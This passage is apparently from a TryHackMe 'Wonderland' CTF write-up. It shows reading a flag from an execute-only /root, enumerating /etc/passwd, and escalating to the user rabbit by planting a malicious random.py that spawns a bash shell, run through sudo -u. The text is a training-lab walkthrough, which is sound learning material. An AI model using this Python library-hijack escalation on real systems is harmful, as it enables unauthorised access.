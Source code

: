 I took a step back and tried finding the `user.txt` flag, I ran couple `find` commands but nothing came up, I started running out of ideas till I viewed the hint on the website

![upside down](https://raw.githubusercontent.com/barryclark/jekyll-now/526bd72a4b420ec05d1726b8ce81696a440af58f/assets/thm/wonder/upside_down.png)

I went to check the root directory and surprise surprise, we have execute permissions on it. this means we can't list the files on `/root` but we can run commands or read files from there as long as we know the names of the files, lucky for me, tryhackme tells me to > Obtain the flag in user.txt

```bash
alice@wonderland:~$ ls -lhd /root
drwx--x--x 4 root root 4.0K May 25  2020 /root
alice@wonderland:~$ ls /root
ls: cannot open directory '/root': Permission denied
alice@wonderland:~$ cat /root/user.txt
thm{"REDACTED FLAG"}
alice@wonderland:~$
```
### escalating to rabbit

examining `/etc/passwd` tells me that there 4 regular users on the box

```bash
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash
```
I already know I can execute a script as the user `rabbit` but didn't know that to do with that information, and with of lot of time passed enumerationng, I decided to peak at a write up, but hey let's keep that between me and you

doing so I've learned 2 new things
<ul>
    <li> you can execute commands as another user using `sudo -u USER COMMAND` </li>
    <li> python tries to find imported libraries in the current working directory before looking for them somewhere else, knowing this we can make a malicious `random.py` to elevate priveleges </li>
</ul>
   

of course, it's so obvious, *if* I had known those informations before

```bash
alice@wonderland:~$ echo 'import pty;pty.spawn("/bin/bash")' > random.py
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
[sudo] password for alice: 
rabbit@wonderland:~$ whoami
rabbit
rabbit@wonderland:~$
```

### escalating to hatter

checking out what in rabbit's home directory I found a 64 bit elf executable with both setuid and setgid bits set, this was pleasant to see as my reverese engineering skills are slightly better than my web hacking skills
